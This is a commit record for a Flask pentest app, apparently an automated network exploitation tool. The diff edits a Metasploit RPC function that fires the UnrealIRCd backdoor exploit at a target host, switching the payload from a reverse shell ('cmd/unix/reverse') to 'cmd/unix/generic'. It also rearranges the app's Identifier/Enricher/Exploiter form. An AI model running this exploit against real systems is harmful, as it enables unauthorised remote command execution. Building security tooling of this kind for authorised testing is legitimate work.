

Before and after one commit to joshuageise/Ophio_NetSprawl, a Flask app: page / in a window 1280 px wide. Shown: the top 300 px of the page, without its empty margins (0-769 px from the left). Run offline with Flask 2, Linux system fonts and the light colour scheme.

Commit message:
Functioning Demo

```diff
--- a/src/Exploiter/exploits/unix_unreal_ircd_backdoor.py
+++ b/src/Exploiter/exploits/unix_unreal_ircd_backdoor.py
@@ -5,6 +5,6 @@ def unix_unreal_ircd_backdoor(client:MsfRpcClient, target:str):
 
     exploit['RHOST'] = target # IP of target host
 
-    retVal = exploit.execute(payload='cmd/unix/reverse')
+    retVal = exploit.execute(payload='cmd/unix/generic')
 
     return retVal
--- a/src/templates/index.html
+++ b/src/templates/index.html
@@ -6,11 +6,14 @@
 <p>What are we going to do?</p>
 <div>
 	<form action="/do" method="GET">
-		<input type="submit" name="do" value="Identifier"/>
-		<input type="text" name="host" value="Host"/>
-		<input type="text" name="target" value="Target"/>
-		<input type="text" name="exploit" value="Exploit"/>
-		<input type="submit" name="do" value="Exploiter" />
+		<input style="width:115px;" type="submit" name="do" value="Identifier"/>
+		<br>
+		<input style="width:100px;" type="text" name="host" value="Host"/>
+		<input style="width:115px;" type="submit" name="do" value="Enricher"/>
+		<br>
+		<input style="width:100px;"  type="text" name="target" value="Target"/>
+		<input style="width:100px;"  type="text" name="exploit" value="Exploit"/>
+		<input style="width:115px;"  type="submit" name="do" value="Exploiter" />
 	</form>
 </body>
 </html>
```
